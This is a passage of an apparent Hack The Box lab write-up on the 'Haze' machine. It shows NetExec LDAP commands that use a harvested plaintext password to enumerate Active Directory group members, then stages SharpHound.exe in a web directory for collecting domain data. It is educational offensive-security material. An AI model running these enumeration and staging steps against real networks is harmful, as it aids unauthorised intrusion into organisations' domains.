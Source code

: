 These groups are interesting.  
`Mark Adams` is shown to be a member of the `gMSA_Managers` group.
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "mark.adams" -p 'Ld@p_Auth_Sp1unk@2k24' --groups gMSA_Managers
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             Mark Adams

fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "mark.adams" -p 'Ld@p_Auth_Sp1unk@2k24' --groups Splunk_Admins
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             Alexander Green

fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "mark.adams" -p 'Ld@p_Auth_Sp1unk@2k24' --groups Backup_Reviewers
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             Edward Martin

fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "mark.adams" -p 'Ld@p_Auth_Sp1unk@2k24' --groups Splunk_LDAP_Auth
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             Paul Taylor
```

#### BloodHound

BloodHound is excellent to visualize the AD environment.  `SharpHound` is used to gather the domain information.
So, `SharpHound.exe` had to be run on the server to gather information about AD object relationships.

`SharpHound.exe`, which is installed as part of the `sharphound` package on Kali was copied to the `www` directory.
```
fcoomans@kali:~/htb/haze$ locate SharpHound.exe
/usr/share/metasploit-framework/data/post/SharpHound.exe
/usr/share/sharphound/SharpHound.exe
/usr/share/sharphound/SharpHound.exe.config

fcoomans@kali:~/htb/haze$ dpkg -S /usr/share/sharphound/SharpHound.exe
sharphound: /usr/share/sharphound/SharpHound.exe

fcoomans@kali:~/htb/haze$ cp /usr/share/sharphound/SharpHound.exe www
```
